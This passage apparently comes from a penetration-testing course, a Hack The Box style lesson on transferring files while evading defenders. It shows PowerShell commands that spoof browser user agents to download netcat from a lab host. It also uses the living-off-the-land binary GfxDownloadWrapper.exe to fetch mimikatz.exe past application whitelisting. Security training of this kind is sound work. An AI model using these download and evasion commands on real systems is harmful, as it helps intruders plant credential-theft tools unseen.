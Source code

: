 If diligent administrators or defenders have blacklisted any of these User Agents, [Invoke-WebRequest](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-7.1) contains a UserAgent parameter, which allows for changing the default user agent to one emulating Internet Explorer, Firefox, Chrome, Opera, or Safari.

`PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl`

`PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome`

`PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"`

### LOLBAS / GTFOBins

Application whitelisting may prevent you from using PowerShell or Netcat, and command-line logging may alert defenders to your presence. In this case, an option may be to use a "LOLBIN" (living off the land binary), alternatively also known as "misplaced trust binaries.”

`PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"`
